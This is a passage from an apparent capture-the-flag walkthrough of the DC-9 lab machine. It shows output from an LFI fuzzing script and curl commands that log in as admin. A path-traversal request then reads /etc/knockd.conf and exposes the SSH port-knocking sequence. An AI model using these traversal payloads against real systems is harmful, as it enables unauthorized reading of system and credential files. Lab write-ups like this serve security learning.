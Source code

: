 A moment after running the script, it can be seen that in the **file** parameter the size of the server's response is different.

``` bash
root@kali:~$ python3 lfi.py
id                  => 1341
...
file                => 3694
...
code                => 1341
```

I proceed to verify and you can see that the content of the passwd file is displayed on the web application, this means that exist a Local File Inclusion vulnerability.

![](/assets/images/DC-9/screenshot-14.png)

If we remember the port 22 is filtered, something is blocking the incoming traffic to that port, in certain cases a mechanism known as **Port knocking** is usually implemented as a security mechanism that allows open a port by attempting to connect to a series of ports closed. After googling I find that the configuration file is in **/etc/knokd.conf** and we try to see the content of this file, for this I have used curl as shown below:

``` bash
root@kali:~$ curl -s -L -X POST "http://192.168.179.128/manage.php" -c cookiefile --data "username=admin&password=transorbital1"
root@kali:~$ curl -s "http://192.168.179.128/manage.php?file=../../../../../../etc/knockd.conf" -b cookiefile | grep -vP '[>]\B' | sed "s/^\s.*[>]//g; 1,9d"
        UseSyslog

[openSSH]
        sequence    = 7469,8475,9842
        seq_timeout = 25
        command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
        tcpflags    = syn

[closeSSH]
```